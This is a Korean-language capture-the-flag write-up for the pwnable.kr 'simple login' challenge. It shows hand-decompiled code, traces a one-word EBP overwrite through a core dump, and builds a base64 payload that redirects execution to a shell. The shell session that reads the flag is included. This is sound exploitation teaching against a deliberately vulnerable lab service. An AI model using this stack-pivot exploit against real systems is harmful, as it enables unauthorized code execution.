 # simple login - 50 pt

## 문제

```text
Can you get authentication from this server?

Download : http://pwnable.kr/bin/login

Running at : nc pwnable.kr 9003
```

링크를 들어가면 9003번 포트에 열린 프로그램 바이너리를 다운받을 수 있다.

## 풀이

일단 열심히 바이너리 어셈 보고 핸드레이를 해봤다.

```c
int main()
{
    0x80482e0([esp+0x1e], 0, 0x1e);
    setvbuf(ds:0x811b860, 0, 2, 0);
    setvbuf(ds:0x811b864, 0, 1, 0);
    printf("Authenticate : ");
    scanf("%30s", [esp+0x1e]);
    0x80482e0(input,0,12);
    [esp+0x18] = 0;
    [esp+0x3c] = Base64Decode([esp+0x1e], [esp+0x18]);
    if ([esp+0x3c] <= 12) {
        memcpy(input, [esp+0x18], [esp+0x3c]);
        if (auth([esp+0x3c]) == 1)
            correct();
    } else {
        printf("Wrong Length");
    }
    return 0;
}

int auth() {
    memcpy([ebp-0x14]+0xc, input, [ebp+0x8]);
    [ebp-0xc] = calc_md5([ebp-0x14]);
    printf("hash : %s\n", [ebp-0xc]);
    if(0x80482f0("f87cd601aa7fedca99018a8be88eda34", [ebp-0xc]))
        return 1;
    else
        return 0;
}

void correct() {
    if (input == 0xdeadbeef) {
        puts("Congratulation! you are good!");
        system("/bin/sh");
    }
    exit(0);
}
```

프로그램의 동작은 다음과 같다.

1. `Authenticate : `를 출력하고, 사용자 입력값을 받아서 `BASE64`로 디코딩한다.
2. 만약 디코딩한 데이터의 길이가 12를 넘으면 `Wrong Length`를 출력하고 죽는다.
3. 디코딩한 데이터를 bss 영역에 있는 input에 집어 넣는다.
4. input 값의 `MD5`로 해슁한 후 `f87cd601aa7fedca99018a8be88eda34` 값과 다를경우 죽는다.
5. 위의 값과 같으면 input의 처음 4바이트가 `0xdeadbeef`면 클리어!

말이 쉽지 위의 조건을 모두 충족시키는 건 불가능하다. 왜냐하면 일단 같은 값을 줘도 출력하는 해쉬값이 다르다. 그게 웃긴게 input 값을 해슁한 값이 아니라 input 앞 영역을 해슁하는 겨여서 실행할 때 마다 차이가 있는 것 같다. 아니 근데 아직도 모르겠는데 `PIE`도 적용이 안되있는데 왜 값이 변하는 걸까 1도 모르겠다.

프로그램을 자꾸 돌리다 보면 알수 있을텐데 `BASE64`로 디코딩 했을때 나오는 데이터의 길이가 12인 경우 Segmentation Fault가 발생하면서 죽는다. 왜 그런지 core 파일을 한번 봤는데...

```bash
jhyun@ubuntu:~/Desktop$ ./login
Authenticate : 776t3kFCQ0RFRkdI             // '\xef\xbe\xad\xdeABCDEFGH'
hash : 3c34e1d6e48aeb734ee932ee3789ed0a
Segmentation fault (core dumped)
jhyun@ubuntu:~/Desktop$ gdb -c core login
...
 EBP  0x48474645 ('EFGH')
 ESP  0xffc833c0 ◂— 0xc /* '\x0c' */
───────────[ DISASM ]───────────
 ► 0x8049424 <main+279>        leave
   0x8049425 <main+280>        ret
```

잘 보면 `leave`에서 프로그램이 죽었고, `EBP`값이 내가 입력한 값의 맨 마지막 4바이트로 되어있는 것을 볼 수 있었다. `leave` 명령어는 `mov esp, ebp`와 `pop ebp`를 묶어 놓은 결과다. 여기서 죽었다는 것으로 보아하니, `EBP`값 (0x48474645 ('EFGH'))을 `ESP`에 넘겨주고 `POP`을 하려니까 되도않는 `0x48474645` 메모리 영역을 접근하려다 세그폴트나서 죽은것이다. 그 말인 즉슨, 우리가 마음대로 실행흐름을 바꿀수 있다는 것이다...

```python
# 0xdeadbeef + correct 함수 주소 (0x804925f) + input 영역 주소 (0x811eb40) 
base64.b64encode("\xef\xbe\xad\xde\x5f\x92\x04\x08\x40\xeb\x11\x08")
```

우리가 입력하는 위의 페이로드는 bss 영역의 `input` 영역에 저장되게 된다. 이런 식으로 프로그램에 입력을 주면, `leave`의 `mov esp, ebp`에 의해 `ESP`가 `input`영역 맨 앞으로 떨어지고, `pop ebp`에 의해 `input` 영역의 첫 4바이트 (0xdeadbeef)가 `EBP`에 떨어지게 된다. 그 다음 `ret`의 `pop eip`에 의해 `EIP`에 `correct` 함수 주소가 떨어지게 되고 `jmp eip`에 의해 `correct`함수로 실행흐름을 바꿀수 있게 된다! 뭐 그다음 `correct`함수 인증 루틴은 `0xdeadbeef`덕에 알아서 통과하게 된다.

```bash
jhyun@ubuntu:~/Desktop$ nc pwnable.kr 9003
Authenticate : 776t3l+SBAhA6xEI
hash : d65ac37256a4ac7c8bb309b4ad5aa131
Congratulation! you are good!
> ls
flag
log
simplelogin
super.pl
> cat flag
control EBP, control ESP, control EIP, control the world~
```